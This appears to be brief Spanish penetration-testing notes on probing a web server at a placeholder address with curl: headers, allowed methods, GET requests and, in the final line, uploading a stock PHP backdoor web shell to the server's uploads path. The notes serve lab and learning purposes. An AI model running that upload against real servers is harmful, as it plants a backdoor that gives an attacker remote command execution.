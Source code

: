Podemos enumerar los headers del servidor web con curl:
`curl -v -I http://<ip>`

Ver los métodos HTTP permitidos por el servidor:
`curl -v -X OPTIONS http://<ip>`

Crear GET request:
`curl -X GET http://<ip>/`

Acceder recurso concreto:
`curl -X GET http://<ip>/home`

Subir un fichero:
`curl http://<ip>/uploads --upload-file /usr/share/webshells/php/simple-backdoor.php`
